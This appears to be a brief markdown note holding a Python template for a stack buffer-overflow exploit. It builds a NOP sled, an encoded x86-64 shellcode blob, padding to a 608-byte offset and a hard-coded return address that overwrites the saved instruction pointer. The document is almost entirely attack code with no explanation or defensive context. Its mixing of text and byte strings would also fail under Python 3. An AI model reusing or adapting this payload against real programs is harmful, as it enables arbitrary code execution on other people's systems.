 # Buffer Overflow 

## Base python script

``
from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x7e\xe4\x73\xe1\x46\x73\xf8"
buf += b"\xde\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x14\xcd\x2b\x78\x2c\x71\xa7\xb4\x7f\xba\x7c\xe4\x0e"
buf += b"\xe4\xb0\x67\x7c\xe4\x50\xc8\x4c\x7b\x07\x2a\x2f\xac"
buf += b"\xfa\x07\x2c\x63\xa2\xb4\x54\xbc\x7c\xe4\x2c\x70\xa6"
buf += b"\x96\x81\x2a\x19\xc0\x1e\x7c\xfd\xab\x88\x8e\x48\xb9"
buf += b"\xdf\x3b\x43\xf1\x1c\x8d\x1d\xce\x35\x1b\xf8\x8d\x36"
buf += b"\x6d\x94\xb3\x11\x3b\x71\x38\x71\xe1\x73\xe1\x46\x73"
buf += b"\xf8\xde"

offset = 608
jumpadd = 0x7fffffffe2fc
len_payload = offset + 8
nop_payload = 300* nop
len_shell = len(buf)
len_nop = len(nop_payload)
padding = 'A' * (len_payload - len_shell - len_nop)
payload = nop_payload + buf + padding + pack("<Q", jumpadd)

print(payload)
``

